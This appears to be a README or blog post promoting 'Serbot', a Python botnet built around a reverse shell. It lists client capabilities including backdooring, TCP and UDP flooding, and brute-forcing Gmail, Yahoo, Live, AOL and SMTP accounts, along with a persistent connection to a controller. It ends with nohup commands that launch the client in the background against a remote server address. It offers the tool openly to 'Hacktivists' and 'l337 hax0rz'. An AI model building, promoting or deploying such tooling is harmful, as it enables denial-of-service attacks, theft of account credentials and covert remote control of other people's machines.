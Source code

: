 Hello everyone,

![alt tag](http://i.imgur.com/L7RQlzv.png)
![alt tag](http://i.imgur.com/YQ81qSZ.png)

Serbot is hot, keep reading Lol.

So, lets just get to the point, I’ve showed you [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/) and what it’s capable of, considered as one of the best Reverse Shells I’ve decided to Update Awrs and create Serbot and no, it’s not what you think Lol.

Serbot is an advanced version of Awrs where the Server can be managed by 1 Controller at a time.
######Example:
Server hosted on 15.48.158.15 and accepts up to 100 clients through port 1567, accepts 1 Controller at a time through port 2357 and the Controller’s functions are protected with a password: “IAmAPassword”
Client 1 hosted on 86.58.157.25 connected to 15.48.158.15:1567
Client 2 hosted on 78.459.17.35 connected to 15.48.158.15:1567
Controller running on my own computer connected to the Server on 15.48.158.15:2357 using the valid password “IAmAPassword”

In Serbot’s case, the Server also plays the role of a Bridge between the Clients and the Controller. This should sum things up. There’s a lot of benefits out of this now that’s for sure. A team of Researches or Hacktivists can now interact with all their clients using their Controllers, they don’t have to worry about portforwading, reverse shell’s stability and speed etc and they’re all sharing everything they have control on in one place.

In Serbot, everything was dealt with, your Server will never crash nor will your Clients no matter what, check the features list below for more info:

#####Server:
1. Linux/Windows Version.
1. Multi Handler. Can handle multiple connections all at once.
1. Bridge. Plays also the roll of a Bridge between the Clients and the Controller.
1. The Controller’s connection requires a plain text password, it’s not the best but it’s more than enough when it comes to keeping “l337 hax0rz b0t tak30v3r” away.
1. Accepts only 1 Controller at a time.
1. Kicks the Controller after 5 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time).
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Client:
1. Linux Version.
1. Backdooring Function. (For more info: https://github.com/dotcppfile/Serbot/releases/tag/18%2F2%2F2015)
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround gmail's SMTP login)
1. Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer.
(if found, the password will be saved in "password.txt" client-side)
1. Self Update.
1. You’ll never lose your shell. (No Output, Wrong, Interactive and Infinite commands won’t kill your shell)
1. Can handle commands like: mkdir whatever; cd whatever.
1. Never closes and is always trying to connect to the Server.
1. Can handle any command properly, such as the cd command.
1. Always gets back a response. (Command Output or Simple Client response)
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Controller:
1. Linux/Windows Version.
1. Handles all commands perfectly.
1. Handles any stupidity (KeyboardInterrupts, empty commands, etc) perfectly.
1. Uses a very small amount of CPU and RAM when running.
1. Easy user interface.
1. Fast and Stable.

This list isn’t enough but that’s all that I can think of right now. If you want to know how stable Serbot is then you have to try and code something similar to it Lol because then you’ll know that it handles everything you’re facing when it comes to bugs, errors, commands etc…

You simply have to remove the “#!/usr/bin/env python2″ at the top of every script to get this up and running on windows.

#####Extra:
If you’re trying to activate the Client threw ssl, shell or web shell then you have to run the Client.py in another process in the background or else your shell will dive into an endless loop and the best way to do that in Linux would be using nohup.

######Example:
nohup python client.py 15.48.158.15 1567 > /dev/null &

nohup python client.py 15.48.158.15 1567 > /dev/null 2>&1 &

Greetings to Team Prophetic, Chaoshackerz and all the followers of https://dotcppfile.wordpress.com/,
That’s all,
dotcppfile.
